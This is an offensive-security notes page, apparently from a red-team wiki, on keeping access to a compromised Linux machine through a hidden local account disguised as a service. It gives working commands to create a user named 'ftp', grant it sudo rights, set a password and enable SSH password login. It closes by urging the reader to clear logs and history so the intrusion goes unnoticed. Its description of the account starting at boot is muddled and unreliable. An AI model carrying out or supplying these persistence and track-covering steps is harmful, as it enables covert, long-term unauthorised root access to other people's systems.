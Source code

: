 --- ---

<h2>General</h2>

Creating a privilege local account on a system and disguising it as a service can be a way for an attacker to maintain access to a compromised machine. A local account is an account that is specific to a single machine, as opposed to an account that is valid across multiple machines on a network. By creating a local account, an attacker can log in to the machine using that account and potentially gain access to resources or perform actions that would not be possible with a standard user account.

To make the local account appear as a service, the attacker can modify the system's configuration so that the account is automatically started when the machine is booted. This can make it difficult for a system administrator or other user to notice that the account exists, as it will appear to be a legitimate service running on the machine.

If an attacker is able to create a local account and disguise it as a service, they can use it to maintain access to the machine even after a reboot or after they have logged out. This can allow the attacker to remain undetected on the system and to continue to perform actions or gather sensitive data over an extended period of time.

---

<h2>Commands</h2>

Take note that you need an adminitrator account to create a root user

Create user (Mimic Service)
```
useradd -M -s /bin/bash ftp
```
- -M                 ---> Dont create a direcotry
- -m /place      ---> Create a directory in the place of your choice
- -s /bin/bash  ---> Type of Shell
- ftp                  ---> Name of the user/service

Give the user ROOT right & Set password
```
usermod -aG sudo ftp     ---> Add user to SUDO groups
groups ftp               ---> Check Groups
passwd ftp               ---> Set password
```

SSH Authentification setup (edit etc/ssh/sshd_config)
```
# Enable login via passowrd or use the Account Manipulation technique

# Uncomment
	PasswordAuthentification yes
```
- SSH Login via password or SSH keys



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===